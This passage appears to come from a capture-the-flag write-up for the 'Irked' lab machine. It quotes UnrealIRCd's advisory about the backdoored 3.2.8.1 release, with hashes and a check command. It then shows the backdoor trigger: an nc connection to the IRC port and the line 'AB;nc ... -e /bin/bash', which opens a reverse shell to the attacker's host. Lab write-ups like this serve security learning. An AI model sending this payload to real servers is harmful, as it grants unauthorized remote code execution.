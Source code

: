       It appears the replacement of the .tar.gz occurred in November 2009 (at 
      least on some mirrors). It seems nobody noticed it until now.

      Obviously, this is a very serious issue, and we're taking precautions
      so this will never happen again, and if it somehow does that it will be 
      noticed quickly.
      We will also re-implement PGP/GPG signing of releases. Even though in 
      practice
      (very) few people verify files, it will still be useful for those
      people who do.
      </blockquote>
      <blockquote>
      Safe versions

      The Windows (SSL and non-ssl) versions are NOT affected.

      CVS is also not affected.

      3.2.8 and any earlier versions are not affected.

      Any Unreal3.2.8.1.tar.gz downloaded BEFORE November 10 2009 should be 
      safe, but you should really double-check, see next.

      How to check if you're running the backdoored version
      </blockquote>
      <blockquote>
      Two ways:

      One is to check if the Unreal3.2.8.1.tar.gz you have is good or bad by 
      running 'md5sum Unreal3.2.8.1.tar.gz' on it.
      Backdoored version (BAD) is: 752e46f2d873c1679fa99de3f52a274d
      Official version (GOOD) is: 7b741e94e867c0a7370553fd01506c66

      The other way is to run this command in your Unreal3.2 directory:
      grep DEBUG3_DOLOG_SYSTEM include/struct.h
      If it outputs two lines, then you're running the backdoored/trojanized 
      version.
      If it outputs nothing, then you're safe and there's nothing to do.

      What to do if you're running the backdoored version


      Obviously, you only need to do this if you checked you are indeed 
      running the
      backdoored version, as mentioned above. Otherwise there's no point in 
      continuing, as the version on our website is (now back) the good one 
      from April 13 2009 and nothing 'new'.
      </blockquote>
     * The backdoor exploit that the current UnrealIRCD version is vulnerable to which is, after intiating the connection to the server with `nc` on one of the 3 irc ports `p8067,p65534 & p6697`, we get the following two messages after they're viewed as mentioned before I can write the following and it will get executed
        ```console
        nc -nv 10.10.10.117 8067
        ```  
        ```console
        (UNKNOWN) [10.10.10.117] 8067 (?) open
        :irked.htb NOTICE AUTH :*** Looking up your hostname...
        :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
        AB;nc -nv 10.10.14.8 5555 -e /bin/bash
        ```
        So here the nc will get executed and of course having my machine listening on port 5555 I get remote code execution.
